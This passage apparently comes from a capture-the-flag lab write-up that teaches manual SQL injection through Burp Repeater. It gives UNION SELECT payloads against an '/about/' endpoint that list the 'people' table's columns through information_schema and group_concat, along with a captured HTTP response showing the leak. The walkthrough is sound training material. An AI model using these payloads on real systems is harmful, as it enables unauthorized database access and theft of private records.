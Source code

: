 ```
As we know the table name and the number of rows, we can use a union query to select the column names for the ```people``` table from the ```columns``` table in the ```information_schema``` default database.

A simple query for this is as follows:
```
/about/0 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name="people"
```

This creates a union query and selects our target, then four null columns (to avoid the query erroring out). Notice that we also changed the ID that we are selecting from ```2``` to ```0```. By setting the ID to an invalid number, we ensure that we don't retrieve anything with the original (legitimate) query; this means that the first row returned from the database will be our desired response from the injected query.

Looking through the returned response, we can see that the first column name (```id```) has been inserted into the page title:

#### The "id" column name in the title of the response
```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 16 Aug 2021 22:12:36 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Front-End-Https: on
Content-Length: 3360


<!DOCTYPE html>
<html lang=en>
    <head>
        <title>
            About | id None
        </title>
-----
```
We have successfully pulled the ```first column name out of the database```, but we now have a problem. The page is only displaying the first matching item — we need to see all of the matching items.

Fortunately, we can use our SQLi to group the results. We can still only retrieve one result at a time, but by using the ```group_concat()``` function, we can amalgamate all of the column names into a single output:
```
/about/0 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name="people"
```

This process is shown below:
![img](/assets/img/burp-repeater11.png)

We have successfully identified eight columns in this table: ```id, firstName, lastName, pfpLink, role, shortRole, bio, and notes```.

Considering our task, it seems a safe bet that our target column is notes.

Finally, we are ready to take the flag from this database — we have all of the information that we need:

- The name of the table: ```people```.
- The name of the target column: ```notes```.
- The ID of the CEO is ```1```; this can be found simply by clicking on Jameson Wolfe's profile on the ```/about/``` page and checking the ID in the URL.

```
